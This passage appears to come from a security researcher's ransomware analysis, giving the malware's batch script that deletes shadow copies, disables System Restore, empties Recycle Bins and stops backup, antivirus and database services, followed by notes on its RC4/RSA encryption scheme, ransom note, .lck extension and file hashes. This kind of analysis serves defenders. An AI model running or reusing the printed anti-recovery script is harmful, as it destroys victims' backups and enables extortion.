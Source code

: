 @for /F "skip=1" %C in ('wmic LogicalDisk get DeviceID') do (@wmic /namespace:\\root\default Path SystemRestore Call disable "%C\" & @rd /s /q %C\$Recycle.bin)
@vssadmin.exe delete shadows /all /quiet
@set SrvLst=vss sql svc$ memtas mepos sophos veeam backup GxVss GxBlr GxFWD GxCVD GxCIMgr DefWatch ccEvtMgr ccSetMgr SavRoam RTVscan QBFCService QBIDPService ntuit.QuickBooks.FCS QBCFMonitorService YooBackup YooIT zhudongfangyu sophos stc_raw_agent VSNAPVSS VeeamTransportSvc VeeamDeploymentService VeeamNFSSvc veeam PDVFSService BackupExecVSSProvider BackupExecAgentAccelerator BackupExecAgentBrowser BackupExecDiveciMediaService BackupExecJobEngine BackupExecManagementService BackupExecRPCService AcrSch2Svc AcronisAgent CASAD2DWebSvc CAARCUpdateSvc
@for %C in (%SrvLst%) do @net stop %C
@set SrvLst=
@set PrcLst=mysql sql oracle ocssd dbsnmp synctime agntsvc isqlplussvc xfssvccon mydesktopservice ocautoupds encsvc tbirdconfig mydesktopqos ocomm dbeng50 sqbcoreservice excel infopath msaccess mspub onenote outlook powerpnt steam thebat thunderbird visio winword wordpad notepad
@for %C in (%PrcLst%) do @taskkill /f /im "%C.exe"
@set PrcLst=
@exit

 
The syntax error consists of a missing backslash that separates system32 and cmd.exe, so the process is launched as system32cmd.exe which is an invalid command.


Script Launch Bug 
The ransomware’s file encryption routine will generate a random string, take the MD5 hash and use that to generate an RC4 128 key which is used to encrypt files. This key is encrypted with a hard coded Public RSA key and converted to Base64 utilizing a custom alphabet. This is appended to the end of the ransom note.
The cryptor places a file called How_To_Unlock_MyFiles.txt in directories with encrypted files.
Each encrypted file is given the .lck extension and the contents of each file are only encrypted up to 0x100000 or 1,048,576 bytes which is a hard coded limit.
Separately, the actor ran a batch script (win.bat below) to set a specific desktop background.
File Details

GoXml.exe


File Size:


43.48 KB (44520 bytes)


SHA256:


f116acc6508843f59e59fb5a8d643370dce82f492a217764521f46a856cc4cb5


SHA1:


5d117d8ef075f3f8ed1d4edcc0771a2a0886a376


MD5:


bbe983dba3bf319621b447618548b740


